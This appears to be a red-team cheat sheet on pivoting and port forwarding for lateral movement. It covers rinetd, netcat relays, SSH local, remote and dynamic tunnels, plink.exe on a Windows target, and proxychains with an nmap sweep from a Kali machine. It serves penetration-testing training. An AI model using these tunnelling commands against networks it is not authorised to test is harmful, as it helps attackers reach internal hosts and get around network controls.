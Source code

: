## Pivoting & Port Forwarding

### Local Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen15.png?raw=true)

1- Rinetd
```
# Target Machine // 10.0.0.1
Python -m SimpleHTTPServer 80

# Gateway Machine
apt-get install rinetd
nano /etc/rinetd.conf
    localhost    localport    remotehost    remoteport     
    127.0.0.1    53            10.0.0.1    80

# Kali Machine // http://gatway:53 → http://10.0.0.1:80
```

2- Netcat
```
# Target Machine // 10.0.0.1
nc -lnvp 22

# Gateway Machine
mknod relaynode p
nc -lvnp 1111 0<relaynode | nc 10.0.0.1 22 1>relaynode

# Kali Machine
nc gateway 1111
```

3- SSH
```
# Target Machine // 10.0.0.1
Python -m SimpleHTTPServer 80

# Gateway Machine
nano /etc/ssh/sshd_config
    Port 53

# Kali Machine
// Now we will connect to the gateway through ssh on port 53, then we will connect
// port 8080 on the internal machine with port 80 on the web server machine. 
ssh user@gateway -p 53 -L 127.0.0.1:8080:10.0.0.1:80
// Now browse to http://127.0.0.1:8080 -> http://10.0.0.1:80
```

### Remote Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen16.png?raw=true)

1- SSH
```
# Kali Machine // 10.0.0.1
nano /etc/ssh/sshd_config
    Port 53

# Target Machine
// let’s assume that port 3389 is open internaly only.
nc -nvlp 3389
// Now we will connect to my kali machine through ssh on port 53, then we will
// connect port 4444 on kali with port 3389 on the target machine.
ssh user@10.0.0.1 -p 53 -R 10.0.0.1:4444:127.0.0.1:3389
// Now try to connect to port 4444 on kali machine.
```

2- Plink.exe
```
# kali Machine // 10.0.0.1
nano /etc/ssh/sshd_config
    Port 53

# Target Windows Machine
// let’s assume that port 3389 is open internaly only.
nc -nvlp 3389
// Now we will connect to my kali machine through ssh on port 53, then we will
// connect port 4444 on kali with port 3389 on the target windows machine.
cmd.exe /c echo y | plink.exe -ssh -l user -pw pass -P 53 -R 10.0.0.1:4444:127.0.0.1:3389 10.0.0.1
// Now try to connect to port 4444 on kali machine.
```

### Dynamic Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen17.png?raw=true)

```
# Target Machine // 10.0.0.1
// SSH open on any port for example 22.

# Kali Machine
// Listen on port 9050 and any thing come to this port send it to the webserver on port 22.
ssh -D 127.0.0.1:9050 user@10.0.0.1 -p 22

nano /etc/proxychains.conf
    socks4 127.0.0.1 9050

proxychains nmap -sn 192.168.1.0/24
```
